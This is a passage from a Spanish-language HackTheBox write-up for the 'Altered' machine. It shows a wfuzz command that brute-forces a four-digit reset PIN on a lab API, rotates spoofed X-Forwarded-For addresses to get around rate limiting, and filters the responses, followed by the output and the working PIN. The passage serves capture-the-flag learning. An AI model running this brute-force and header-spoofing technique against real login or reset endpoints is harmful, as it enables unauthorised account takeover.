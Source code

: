 ```bash
000001542:   200        140 L    324 W      5644 Ch     "1541 - 10.10.6.17"                            
000001527:   200        140 L    324 W      5644 Ch     "1526 - 10.10.6.2"                             
000001538:   200        140 L    324 W      5644 Ch     "1537 - 10.10.6.13"                            
000001541:   200        140 L    324 W      5644 Ch     "1540 - 10.10.6.16"                            
000001540:   200        140 L    324 W      5644 Ch     "1539 - 10.10.6.15"  
```

- Bueno ahora es mas fácil solo ocultamos respuestas con esos caracteres y listo pero antes capturaremos otra vez la petición para cambiar la cookie y sea valida para la petición que estamos haciendo desde la web.

```bash
❯ wfuzz -c --hh=5644 -m zip -t 200 -z range,0000-9999 -w /home/miguelrega7/Hackthebox/altered/content/IPs -H "X-Forwarded-For: FUZ2Z" -d 'name=admin&pin=FUZZ' -H "Cookie: XSRF-TOKEN=eyJpdiI6ImpCWXVEcURCbGRBMUxCZ3d2SjZrSlE9PSIsInZhbHVlIjoiY09uZG1JUGhpMnZtZFlwRDMzQzd2R2hoenFlZ0JwMzJhb3VsTzR0NmRPUk8vdm5DRkszMENJMHdSUHdhRUtEU0l3Y1JJbmMzY3FyRGtHQ0pUb2FiRXU4Q0ZpdWNueEhvemgwSkE3VTNDZTBKYVhFUDNQNU9MaXV1emJlS0FBekoiLCJtYWMiOiJjY2NkM2ZlNWEzNzU3MGEyNjZkNDNlY2RmYmE2MGEyMDFjZDU4MjlmNTRhYWQ0YTU0ZDRkYzc3Mjk1MDIwYTBmIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IjZkcFJRb0VjN3NnM0czZ3hXN2t2c3c9PSIsInZhbHVlIjoiVC93OVZvNlBGZXlYTWFJaEwrMmNRalY3cExsYUNBNnBOU01vU0dDankwR1JvVHExdk0xWERmUDVMZ1QvNWxYZVFmbVBEaTJNekVKTDdNUExIcFBuenNHSUkyT1B1b3YvTUxScldNbUM5VzNaWThWWC9oWXZPUzNFZmJyYTdzZU8iLCJtYWMiOiJhODViMmZmYTFkZGRkMGFkZTE4ZDFhNWE2NWY5ZTgwOWE0ZTBlMjhiNjAxZDQyOTFhOTE1ODk5NTYxMWY2Nzc2IiwidGFnIjoiIn0%3D" http://10.10.11.159/api/resettoken
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.159/api/resettoken
Total requests: 10000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                        
=====================================================================

000001052:   200        138 L    303 W      5366 Ch     "1051 - 10.10.4.35" 
```

- Tenemos un `PIN code` vamos a probarlo.

- Y bueno funciona.

<p align="center">
<img src="/assets/hackthebox/img/machines/hard/altered/7.png">